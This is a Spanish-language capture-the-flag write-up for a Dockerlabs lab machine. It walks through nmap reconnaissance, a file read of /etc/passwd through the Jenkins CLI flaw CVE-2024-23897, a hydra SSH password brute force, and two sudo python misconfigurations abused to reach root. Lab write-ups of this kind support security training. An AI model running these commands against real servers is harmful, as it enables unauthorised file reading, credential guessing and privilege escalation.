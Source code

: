 # Máquina Secretjenkins

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open   ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94fb28597fae02c0564607338cac5285 (ECDSA)
|_  256 43075030bb28b0739b7c0c4e3fc9bf02 (ED25519)
8080/tcp open   http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![Pasted image 20240511183108](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f6863828-3c2c-4274-927b-ab323dffe3d4)

--------------
## Explotación

Hay un proyecto en **github** que maneja una vulnerabilidad específica para esta versión de **Jenkins**.
Link al exploit -> [Exploit](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Seguimos los pasos, y lo primero de todo es descargarse el **jenkins-cli.jar** para poder explotar un **LFI**:

```
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```

![Pasted image 20240511183553](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/766d44d1-f252-40b5-8452-e220c7372428)

Con este archivo ejecutamos el siguiente comando para tratar de leer el **/etc/passwd**:

```shell
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![Pasted image 20240511183811](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2fe80803-8b96-4ec2-9383-14930637ce4e)

Tenemos el **LFI** y vemos un usuario **pinguinito** y **bobby**.
Tras probar con fuerza bruta al **ssh** sobre ambos usuarios, encontramos la contraseña de **bobby**.

```shell
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
```

Estamos dentro !

------------
## Escalada de privilegios

```shell
sudo -l
--------------
User bobby may run the following commands on 1e9c73d6dd94:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ejecutar **python** como el user **pinguinito**. Podemos abusar de este con:

```shell
sudo -u pinguinito /usr/bin/python3
-> import os
-> os.system("bash")
whoami
-------------------------------------
pinguinito
```

Volvemos a hacer **sudo -l**:

```shell
sudo -l
-----------------
User pinguinito may run the following commands on 1e9c73d6dd94:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ejecutar un script que hay en **opt** como **root**.

![Pasted image 20240511185829](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a28f6928-28e9-43f3-ab5b-cc7f2c4584ae)

```shell
ls -l /opt/script.py
------------------------------------
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
```

Observamos que somos el propietario del script, podemos darle permisos, modificarlo, y ejecutarlo como **root**:

```shell
chmod 744 /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo "import os" > /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo 'os.system("bash")' >> /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ sudo /usr/bin/python3 /opt/script.py
```

![[Pasted image 20240511190820.png]]

```shell
root@1e9c73d6dd94:/opt# whoami
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
